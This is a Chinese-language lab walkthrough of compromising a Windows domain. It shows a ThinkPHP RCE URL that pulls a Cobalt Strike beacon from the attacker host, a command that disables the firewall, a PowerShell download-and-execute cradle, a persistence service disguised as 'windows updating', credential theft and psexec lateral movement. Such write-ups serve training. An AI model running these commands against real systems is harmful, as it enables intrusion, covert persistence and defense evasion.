# 笔记
win7:192.168.111.166/192.168.138.136
DC:192.168.138.138
kali:192.168.111.128
主机:192.168.111.1
在win7上启动web服务(phpstudy)


收集信息:

nmap扫描:


先试一下mysql弱口令,提示不允许外联
查看80端口
是一个thinkphp默认页面
扫一下目录发现add.php

好像是登录,可以选择弱口令尝试一下(没成功)
测试一下thinkphp历史漏洞

这里成功检测出漏洞

# 控制web

因为web机器是一台windows,这里选择上线cs
这里先查看是否有杀软tasklist /SVC

先创建监听器和后门(kali为CS的服务端)

这里在kali上开启web服务让web服务器下载.exe程序并执行
```
http://192.168.111.166/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=certutil.exe%20-urlcache%20-split%20-f%20http://192.168.111.128:8383/beacon.exe
```
成功上线



同时查看一下add.php文件,原来是一个马(其实也可以用刚才的工具直接生成)

解密一下密码
2aefc34200a294a3cc7db81b43a81873---admins

获得了域控管理员



---

# 内网渗透

进行信息收集
arp -a
发现一台138的机器
同时win7处在sun.com域内
确定138为DC

抓取机器上的凭证

有了凭证我们直接可以横向移动了

这里执行成功但是没有上线,改用正向连接也是直接提示无法连接应该是DC无法与我们建立连接(原理则是我们在win7上使用psexec执行payload回连192.168.111.128,但是DC处在内网无法连接)

这里用到中转上线(让DC连接win7,再通过已经建立的win7的会话转发到kali上)



再次尝试psexec,选择新生成的监听器



仍然没有成功,原因则是开启了防火墙, 手动将防火墙关闭
```
shell netsh advfirewall set allprofiles state off
```
再次尝试,成功获得会话



# 权限维持
配置伪装系统服务启动
选择web投递攻击

选择监听器
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.111.128:7654/testing'))"
```
执行该命令即可上线cs
该命令还需要加上cmd /c start
``
```
cmd /c start powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.111.128:7654/testing'))"
```
配置服务并自动运行
```
sc create "windows updating" binpath= "cmd /c start powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.111.128:7654/testing'))" start= auto
```
添加描述
```
shell sc description "windows updating" "安全补丁"
```



重新启动查看win7测试是否上线


成功上线

# 清除攻击痕迹
主要是文件残留与日志文件
